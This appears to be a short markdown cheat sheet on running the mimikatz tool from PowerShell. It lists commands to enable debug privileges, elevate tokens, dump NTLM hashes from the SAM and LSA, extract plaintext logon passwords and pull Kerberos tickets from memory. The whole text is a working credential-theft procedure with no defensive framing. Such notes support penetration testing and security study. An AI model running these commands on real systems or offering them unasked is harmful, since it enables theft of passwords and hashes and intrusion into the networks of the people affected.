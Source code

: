 ### mimikatz
As an early stage enumeration item, worth running: `Get-LocalUser` to enumerate local users on a machine.

To start run `.\mimikatz.exe` in a Powershell session. You'll then be dumped in an interactive session in which the commands below can be run.

Enable the `SeDebugPrivilege` access right: 
```cmd
privilege::debug
```
Elevate privilege (prerequisite for `lsadump::sam`):
```cmd
token::elevate
```
Extract all NTLM hashes from the SAM:
```cmd
lsadump::sam
```
If for whatever reason you are not getting hashes from the correct domain (ie. local rather than the Domain) then alternatively try:
```
lsadump::lsa /inject
```
Extract plaintext passwords from all available sources:
```cmd
sekurlsa::logonpasswords
```
Get all tickets stored in memory:
```cmd
sekurlsa::tickets
```